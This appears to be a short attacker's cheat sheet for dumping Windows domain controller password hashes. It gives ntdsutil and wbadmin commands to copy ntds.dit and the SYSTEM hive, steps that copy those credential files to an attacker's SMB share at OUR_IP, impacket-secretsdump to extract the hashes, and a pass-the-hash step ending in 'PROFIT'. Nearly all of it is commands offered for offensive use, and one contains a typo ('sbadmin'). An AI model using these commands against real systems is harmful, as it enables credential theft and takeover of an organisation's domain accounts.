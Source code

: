 # DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

#### 1) powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### adduser smbuser

#### smbpasswd -a smbuser

#### sudo service smbd restart 

#### 2) net use k: \\OUR_IP\SHARE /user:smbuser smbpass (Mount the share)

#### 3) echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds (Backup NTDS folder)

#### 4) sbadmin get versions (Retrieve the version of the backup)

#### 5) echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl (Restore the NTDS file, specifying the backup version)

#### 6) reg save HKLM\SYSTEM C:\system.hive (Export the system hive)

#### 7) cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT
